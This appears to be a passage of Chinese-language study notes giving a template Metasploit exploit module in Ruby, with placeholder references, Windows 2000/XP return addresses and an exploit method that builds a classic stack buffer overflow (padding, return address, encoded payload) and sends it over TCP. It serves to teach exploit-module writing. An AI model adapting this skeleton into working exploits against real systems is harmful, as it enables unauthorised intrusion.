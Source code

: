     * 自定义exploit示例
        ```rb
        require 'msf/core'

        class Metasploit3 < Msf::Exploit::Remote
            include Exploit::Remote::Tcp

            def initialize(info={})
                super(update_info(info,
                'Name'           => "Code Example",
                'Description'    => %q{
                    This is an example of a module using references
                },
                'License'        => MSF_LICENSE,
                'Author'         => [ 'Unknown' ],
                'References'     =>
                    [
                    [ 'CVE', '2014-9999' ],
                    ['BID', '1234'],
                    ['URL', 'http://example.com/blog.php?id=123']
                    ],
                'Platform'       => 'win',
                'Targets'        => [
                    [ 'Windoes 2000', { 'Ret' => 0x77F8948B } ],
                    [ 'Windoes XP SP2', { 'Ret' => 0x7C914393 } ]
                ],
                'Payload'        => {
                    'Space' => 200,     # 指定生成的payload的最大字节数
                    'BadChars' => "\x00",
                    # 'DisableNops' => true, # 不用nop雪橇
                    # 'MaxNops' => 100, # 限制nop雪橇最大字节数
                },
                'Privileged'     => false,
                'DisclosureDate' => "Apr 1 2014",
                'DefaultTarget'  => 0))

                # 注册选项. 
                register_options([
                    OptBool.new('<参数名>', [false, "<描述>", true]), # 后面列表的三个值分别表示是否必选, 描述, 初始值
                ])
            end

            def exploit
                connect # 根据设置的ip地址和端口, 连接到目标服务器
                attack_buf = 'a' * 200 + [target['Ret']].pack('V') + payload.encoded # payload在命令中指定; pack('V')是按小端序
                sock.put(attack_buf)
                handler
                disconnect
                # print_debug('Hello, world')
                # datastore['<参数名>']
            end

